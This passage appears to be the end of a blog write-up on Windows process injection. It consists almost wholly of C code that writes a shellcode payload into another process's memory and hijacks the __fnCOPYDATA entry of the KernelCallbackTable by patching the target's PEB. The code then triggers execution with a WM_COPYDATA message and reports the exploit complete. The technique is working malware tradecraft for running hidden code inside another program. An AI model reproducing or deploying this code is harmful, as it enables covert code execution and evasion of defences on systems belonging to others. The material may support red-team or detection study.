    printf( COLOR_YELLOW_BOLD "\t[*] Resolving KernelCallbackTable using Assembly...\n" COLOR_RESET );
    PVOID KernelCallbackTableASM = ResolveKernelCallbackTable( PebBaseAddressASM );
    printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address (from ASM): 0x%p\n" COLOR_RESET, KernelCallbackTableASM );

    // Continue using KernelCallbackTableASM as needed
    */

    // Step 8: Write payload to remote buffer
    printf( COLOR_YELLOW_BOLD "\n\t[*] Allocating remote buffer for payload...\n" COLOR_RESET );
    LPVOID remotebuf = VirtualAllocEx(
        hProcess,
        NULL,
        shellcodeSize,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );
    if ( !remotebuf )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to allocate remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    if ( !WriteProcessMemory(
        hProcess,
        remotebuf,
        payload,
        shellcodeSize,
        NULL
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to write payload to remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Payload written to remote buffer at: 0x%p\n" COLOR_RESET, remotebuf );

    // Step 9: Modify __fnCOPYDATA in the KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\t[*] Modifying __fnCOPYDATA to point to payload...\n" COLOR_RESET );
    CCC.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;
    printf( COLOR_BLUE_BOLD "\t\t[*] __fnCOPYDATA now points to: 0x%p\n" COLOR_RESET, remotebuf );

    // Step 10: Clone modified KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\n\t[*] Cloning modified KernelCallbackTable...\n" COLOR_RESET );
    LPVOID cloneCCC = VirtualAllocEx(
        hProcess,
        NULL,
        sizeof( CCC ),
        MEM_RESERVE | MEM_COMMIT,
        PAGE_READWRITE
    );
    if ( !cloneCCC )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to allocate memory for cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    if ( !WriteProcessMemory(
        hProcess,
        cloneCCC,
        &CCC,
        sizeof( CCC ),
        NULL
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to write cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Cloned KernelCallbackTable written at: 0x%p\n" COLOR_RESET, cloneCCC );

    // Step 11: Update PEB KernelCallbackTable to cloned KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\t[*] Updating PEB with cloned KernelCallbackTable...\n" COLOR_RESET );
    if ( !WriteProcessMemory(
        hProcess,
        ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
        &cloneCCC,
        sizeof( PVOID ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to update PEB KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] PEB KernelCallbackTable updated successfully!\n" COLOR_RESET );

    // Step 12: Ensure Memory Protection for Payload
    DWORD oldProtect;
    if ( !VirtualProtectEx(
        hProcess,
        remotebuf,
        shellcodeSize,
        PAGE_EXECUTE_READ,
        &oldProtect
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to change memory protection for payload. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Memory protection for payload set to PAGE_EXECUTE_READ.\n" COLOR_RESET );

    // Step 13: Trigger the payload
    printf( COLOR_YELLOW_BOLD "\t[*] Sending message to trigger the payload...\n" COLOR_RESET );
    COPYDATASTRUCT cds;
    WCHAR msg[] = L"LJX";
    cds.dwData = 1;
    cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
    cds.lpData = msg;
    LRESULT result = SendMessage(
        hWindow,
        WM_COPYDATA,
        ( WPARAM ) hWindow,
        ( LPARAM ) &cds
    );
    if ( result == 0 && GetLastError() != 0 )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to send message to trigger payload. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Payload triggered!\n" COLOR_RESET );

    // Cleanup
    printf( COLOR_YELLOW_BOLD "\t[*] Cleaning up...\n" COLOR_RESET );
    VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
    VirtualFreeEx( hProcess, cloneCCC, 0, MEM_RELEASE );
    TerminateProcess( pi.hProcess, 0 );
    CloseHandle( hProcess );
    CloseHandle( pi.hProcess );
    CloseHandle( pi.hThread );

    printf( COLOR_GREEN_BOLD "\n[+] YAAAAAAAAAY.\n" COLOR_RESET );
    printf( COLOR_GREEN_BOLD "[+] Exploit completed successfully.\n" COLOR_RESET );
    return 0;
}
```
---

And finally thanks for reading!
